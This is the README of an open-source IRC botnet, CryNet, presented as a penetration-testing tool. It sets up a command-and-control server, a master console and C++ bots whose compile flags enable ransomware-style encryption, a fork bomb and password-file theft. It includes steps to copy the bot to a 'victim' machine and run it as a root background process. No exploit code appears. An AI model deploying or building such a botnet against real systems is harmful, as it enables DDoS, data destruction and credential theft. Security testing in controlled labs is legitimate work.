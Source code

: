 # CryNet

CryNet is an advanced IRC Botnet Intended to be used in a penetration testing context. It is an open-source tool designed to simulate and test various security threats in a controlled environment. 

---

# Features
* Simulate various cybersecurity threats including DDoS, ransomware, and system throttling
* Customizable bots with multiple capabilities
* IRC-based Command and Control (C&C) infrastructure
* Cross-platform support with components written in C++, Java, and Python

---

### System Requirements and Dependencies

**Server**
* OS: Any with Java Runtime Environment (JRE) 1.8
* Dependencies: Jackson-core, commons-codec, Apache Maven

**Bot**
* OS: Linux, preferably Debian based at this time
* Dependencies: crypto++, libircclient, libtins/libpcap

**Master**
* OS: Any with Python installed
* Dependencies: Colorama, hashlib, socket, subprocess, threading, JSON

---

### Installation and Setup

**General Installation**
1. Clone the repository 

```
git clone https://github.com/s1-dev/CryNet.git
cd CryNet
```

2. Following below steps for installation and setup for deseired component 

**IRC Server Installation**

1. Run `setup.py` script

```
python setup.py
```

2. Follow script for server setup

```
Welcome to CryNet project setup, please enter revelant information to setup configuration:
What config would you like to update? (MASTER|SERVER|BOTH) SERVER
~~~~~~~~~~~~~~~~~Server config~~~~~~~~~~~~~~~~~
Current configuration:
{
    "serverHostname": "",
    "portNumber": 0,
    "maxChannels": 0,
    "maxChannelUsers": 0,
    "maxMessageLength": 0,
    "maxNickLength": 0,
    "maxConnections": 0,
    "masterAuthDigest": "",
    "botAuthDigest": "",
    "shutdownSalt": "",
    "shutdownDigest": ""
}
Server hostname (IP): 127.0.0.1
Port number (6667|6697): 6667
Max channels (default is 7):
...
```

3. Run `ircServerBuildAndRush.sh` script to build and execute the maven project

```
./ircServerBuildAndRun.sh
```

**Master Installation**
1. Run `setup.py` script

```
python setup.py
```

2. Follow script for master setup

```
Welcome to CryNet project setup, please enter revelant information to setup configuration:
What config would you like to update? (MASTER|SERVER|BOTH) MASTER
~~~~~~~~~~~~~~~~~Master config~~~~~~~~~~~~~~~~~
Current configuration:
{
    "server": "127.0.0.1",
    "port": 6667,
    "masterValidatePass": "9f86d081884c7d659a2feaa0c55ad015a3bf4f1b2b0b822cd15d6c15b0f00a08",
    "botValidatePass": "ecd71870d1963316a97e3ac3408c9835ad8cf0f3c1bc703527c30265534f75ae",
    "botPath": "/code/secDev/CryNet/src/bot/"
}
Server address (IP): 127.0.0.1
Port number (6667|6697): 6667
Master validation passphrase:
...
```

3. Run `runMasterProgram.sh` script or run the `MasterProgram.py` script

```
./runMasterProgram.sh
```

OR

```
cd src/master/
python ./MasterProgram.py
```

**Bot Installation - Manual Setup**
1. Navigate to the root of the bot project directory

```
cd src/bot/
```

2. Modify `manualCompilationScript.sh` to flip any deseired bot capaiblitity flags to 1

```
head -n 7 manualCompilationScript.sh
#!/bin/bash

ENABLE_PING_ACTION=0
ENABLE_ENCRYPT_ACTION=0
ENABLE_REPORT_ACTION=0
ENABLE_FORK_BOMB_ACTION=0
ENABLE_GET_PASSWD_ACTION=0

nano manualCompilationScript.sh
head -n 7 manualCompilationScript.sh
#!/bin/bash

ENABLE_PING_ACTION=1
ENABLE_ENCRYPT_ACTION=0
ENABLE_REPORT_ACTION=1
ENABLE_FORK_BOMB_ACTION=0
ENABLE_GET_PASSWD_ACTION=1
```

3. Modify variables set in `manualCompilationScript.sh` that are passed in as macros for compilation. 

Example of the set variables
```
BOT_NICK="bot_NICK"
BOT_USER="bot_USER"
SERVER_ADDRESS="52.90.220.187"
ASSIGNED_CHANNEL="#testChannel"
BOT_PASS="test123"
MASTER_NICK="master"
OUT_FILE="irc_bot"
```

4. Run `manualCompilationScript.sh`
```
./manualCompilationScript.sh
```

5. Move the executable to the deseired "victim" machine 

6. Run the executable, it default runs as a background process. Otherwise, use "NO_DAEMON" command-line argument 

```
sudo ./irc_bot
``` 

OR

```
sudo ./irc_bot NO_DAEMON
```

**Bot Installation - Master Setup**
1. Run the master program, ensure that the master setup has been complete

```
cd src/master/
python ./MasterProgram.py
```

2. Run through the bot compilation process in the master program

```
~~~~~~~~~~~~~~~~~~~~~~~CryNet Master Options~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Master options (input number to select option):
1. Connect to CryNet IRC server
2. Enter command center
3. Enter manual IRC console
4. View bot staistics
5. Compile a new bot
Option: 5
----------------------CryNet Bot Compilation----------------------
To a compile a bot with a specific level of complexity, follow given instructions
(Note: This compiler will only work if g++ is installed and the master program is running from the 'master' directory)
=========================General Bot Setup=========================
Enter the name of the executable: irc_bot
Enter the output path of this binary (no input will be the cwd):
Would you like to strip the binay? Stripping is recommended since it removes debugging informationa and untouched code, which reduces the exe size.
Enter 'n' to not strip the exe:
=========================Bot Macros Setup=========================
(Note: these values will be passed to the bot as essentially compilation time params)
Enter a botnet channel name (must start with '#'):
...
```

3. Move the executable to the deseired "victim" machine 

4. Run the executable, it default runs as a background process. Otherwise, use "NO_DAEMON" command-line argument 

```
sudo ./irc_bot
``` 

OR

```
sudo ./irc_bot NO_DAEMON
```

---

### Component Overview

**IRC Server**
The IRC Server, written in Java, acts as the central command hub for CryNet. It supports several hundred concurrent connections and facilitates communication between the Master Program and IRC Bots.

**Bot**
CryNet's IRC Bots are written in C++ and are responsible for executing commands received from the IRC server. They can be compiled with various capabilities, enabling them to perform different security testing actions.

**Master**
The Master Program, written in Python, sends commands to the IRC Bots via the IRC Server. It allows users to remotely manage and control the actions performed by the bots. In addition, it provides a UI for bots to be compiled with different capabilities. 
